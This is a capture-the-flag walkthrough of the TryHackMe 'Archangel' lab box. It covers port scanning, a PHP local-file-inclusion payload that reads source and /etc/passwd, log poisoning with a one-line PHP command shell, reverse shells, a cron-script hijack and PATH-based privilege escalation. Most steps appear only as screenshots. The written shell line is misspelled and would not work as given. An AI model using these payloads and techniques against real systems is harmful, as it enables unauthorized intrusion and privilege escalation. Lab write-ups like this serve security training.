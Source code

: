 In this walkthrough, we'll go over a challenge (easy) level box called ***Archangel*** on [TryHackMe](https://tryhackme.com/room/archangel) 

![Archangel](archangel.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.7.126 --open
```
It looks like the ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:37 EDT
Nmap scan report for mafialive.thm (10.10.7.126)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```
When we visit the webpage, we can see that there is another domain:
![Archangel Index](aa-index-html.png)

Let's add that to the "/etc/hosts" file. Upon visiting the site, we can see the first flag. However, in this tutorial I'll be focusing on initial foothold and privilege escalation.

![Archangel New Domain](aa-new-domain.png)

We can run dirsearch on this new website `rsearch -u http://mafialive.thm/ -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/we/wordlists/dirb/big.txt`:
![Archangel Dirsearch](aa-new-domain-dirsearch.png)

We then check "robots.txt" and find another page "test.php" also dirsearch found that page:

![Archangel Test PHP](aa-new-domain-test-php.png)

After visiting http://mafialive.thm/test.php, we can see that the page is executing PHP:
![Archangel Test PHP exe](aa-test-php.png)
![Archangel Click](aa-click-button.png)

I use `php://filter/convert.base64-encode/resource=` function to obtain the content of test.php
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
![Archangel PHP Filter](aa-php-filter.png)

I then decode the encoded string and find the content of the test php file:
![Archangel Decode](aa-decode-test-php.png)

We would need to use "/var/www/html/development_testing" in the command so we can now pursue the LFI attack vector. We can fuzz the "test.php" for LFI with ffuf
`ffuf -w /usr/share/wfuzz/wordlist/vulns/dirTraversal-nix.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ -fs 286,310 -t 100`:
![Archangel ffuf](aa-ffuf-LFI.png)

I try the first payload in BurpSuite to display the output:
![Archangel Passwd](aa-etc-passwd.png)

We can inspect "/var/log/apache2/access.log" file:
![Archangel Apache2](aa-apache2-log.png)

### Poisoning a file for RCE via LFI
We can now pursue an RCE via poisoning "/var/log/apache2/error.log":
```php
<?php passthrough($GET['cmd']); ?>
```
![Archangel Poison](aa-posioning.png)

After that we are able to run "ls -la" command:
![Archangel ls](aa-posioning-ls.png)
![Archangel nc](aa-posioning-nc.png)

I downloaded php-revershell from pentestmonkey and transferred it to the target machine with wget:
![Archangel Transfer PHP Shell](aa-transfer-php-shell.png)
![Archangel Wget](aa-wget.png)
![Archangel PHP Reverse Shell](aa-php-revshell.png)
![Archangel Initial Foothold](aa-initial-foothold.png)

### Lateral Movement
We can first look at "/etc/crontab" and it shows that there is a cronjob running by archangel:
![Archangel Crontab](aa-crontab.png)

Since we have rights to edit the file, we can run a python revshell:
![Archangel SH](aa-helloworld-sh.png)
![Archangel Lateral Movement](aa-lateral-movement.png)

We now have a shell as archangel:

![Archangel User](aa-archangel-user.png)

In the archangle's home folder there is an exe called backup so let's create a file and made it executable:
![Archangel CP](aa-create-cp.png)

We can now add "/home/archange/secret" to the PATH variable and run the backup binary file:
![Archangel Root](aa-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
